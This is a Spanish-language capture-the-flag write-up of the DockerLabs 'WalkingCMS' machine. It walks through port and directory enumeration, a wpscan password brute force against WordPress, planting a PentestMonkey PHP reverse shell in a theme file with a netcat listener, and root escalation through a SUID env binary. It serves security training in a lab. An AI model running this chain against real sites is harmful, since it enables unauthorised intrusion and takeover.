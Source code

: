 # MACHINE WALKINGCMS

## INFORMACIÓN GENERAL

- **Plataforma**: DockerLabs
- **Sistema Operativo**: Linux
- **Dificultad**: Fácil

![machine_dockerlabs](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/WalkingCms/machine_dockerlabs.png)

## DESPLIEGUE

```python
bash autodeploy.sh walkingcms.tar
```
![despliegue](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/WalkingCms/DESPLIEGUE.png)

## RECONOCIMIENTO

```python
nmap -p- -sS --min-rate 5000 -vvvv -n -Pn -sCV 172.17.0.2 -oN ports
```

```ruby
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000024s latency).
Scanned at 2025-03-03 21:58:18 -05 for 11s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
Si nos vamos a la web que aloja el puerto 80, nos encontramos con la informacion del servidor de apache

![info_apache](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/WalkingCms/info_apache.png)

en este caso vamos a enumerar un poco con *Gobuster* a ver que nos encontramos

## ENUMERACIÓN
```ruby
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml,csv,txt,html -t 20 -b 500,502,404
```
```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404,500,502
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php,xml,csv
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10701]
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
```
Si nos fijamos tenemos un directorio muy interesnate que es `wordpress`, vamos a ver que contiene

![wordpress1](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/WalkingCms/wordpress1.png)

No encontramos nada intersante, vamos a seguir enumerarando directorios por detras de `http://172.17.0.2/wordpress`

```ruby
gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml,csv,txt,html -t 20 -b 500,502,404 
```
```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/wordpress/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   500,502,404
[+] User Agent:              gobuster/3.6
[+] Extensions:              csv,html,txt,php,xml
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 301) [Size: 0] [--> http://172.17.0.2/wordpress/]
/wp-content           (Status: 301) [Size: 323] [--> http://172.17.0.2/wordpress/wp-content/]
/license.txt          (Status: 200) [Size: 19915]
/wp-includes          (Status: 301) [Size: 324] [--> http://172.17.0.2/wordpress/wp-includes/]
/readme.html          (Status: 200) [Size: 7409]
/wp-login.php         (Status: 200) [Size: 7765]
/wp-trackback.php     (Status: 200) [Size: 136]
/wp-admin             (Status: 301) [Size: 321] [--> http://172.17.0.2/wordpress/wp-admin/]
/xmlrpc.php           (Status: 405) [Size: 42]
```
Si nos fijamos tenemos varios recuros de `wordpress`, hay un archivo que muchas veces suele ser una via potencial de ataque que es el 
`/xmlrpc.php (es un archivo en WordPress que habilita la comunicación remota con el sitio usando el protocolo XML-RPC)`, pero si lo examinos solo nos muestra un mensaje que dice `XML-RPC server accepts POST requests only.`

Como tenemos un `wordpress`, vamos a enumerarlo, para ver si encontramos algo intersante

```ruby
wpscan --url http://172.17.0.2/wordpress/ --enumerate u, vp
```

-**`--enumerate`**: Este parámetro es para indicar que tipo de informacion queremos enumerar

-**`u`**: parámetro para enumerar usuarios

-**`vp`**: parámetros para enumerar pluggins vulnerables

![wpscan](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/WalkingCms/wpscan.png)

Vemos que nos encuentra un usuario de nombre `mario` y el tema que se esta actualizando `twentytwentytwo` y que esta desactualizaca, y la ruta donde la podemos 
encontrar


## EXPLOTACION
*COMO TENEMOS UN USUARIO Y UN `wp-login.php`, vamos a aplicar una fuerza bruta a ver si encontramos la password
```ruby
wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt
```
```ruby
[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love                                                                                                                                                                                                              
Trying mario / dakota Time: 00:00:05 <                                                                                                                                                        > (390 / 14344782)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mario, Password: love
```
Hemos encontrado las credenciales del `wordpress` que son `mario:love`, nos logeamos y una vez adentro podemos revisar `Apariencia/Theme Code Editor`, para ver si nos podemos aprovechar de algo como nos enumero `wpscan`

![twenty_twenty_to](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/WalkingCms/twenty_twentyto.png)

Tenemos capacidad de escribir codigo, facilmente nos podemos montar un codigo de una `reverse shell`, vamos a usar el codigo php de nuestro amigo `Pentest Monkey`


Web: [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Borramos el codigo original y copiamos el `php-reverse.shell.php` ajustando parametros necesarios y nos ponemos en escucha con netcat 
```ruby
nc -nlvp 1234
```

Usamos la ruta de los temas, nos lo enumeró `wpscan` si se acuerdan
```ruby
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php
```
![reverse_shell_exitosa](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/WalkingCms/reverse_shell_exitosa.png)

Hemos realizado la `reverse shell` con exito ahora el siguiente paso es poder escalar privilegios a `root`

### Tratamiento de la TTY
```ruby
script /dev/null -c bash
ctrl + z
stty raw -echo:fg
        reset xterm
export TERM=xterm
export SHELL=bash
```

# ESCALADA DE PRIVILEGIOS 

Si hacemos `sudo -l` no reconoce el comando entonces vamos a tratar de abusar de permisos SUID si encontramos
```ruby
find / -perm -4000 2>/dev/null 
```

![SUID_env](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/WalkingCms/SUID_env.png)

Como tenemos `/usr/bin/env` con permisos SUID, visitamos [GFTObins](https://gtfobins.github.io/gtfobins/env/#sudo) una web famosa para la *Escalada de Privilegios y Bypasses de Restricciones*

![GTFObins](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/WalkingCms/GTFObins.png)

```ruby
./env /bin/sh -p
```
![root](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/WalkingCms/root.png)

# ELIMINAR LA MAQUINA

```ruby
ctrl + c
```




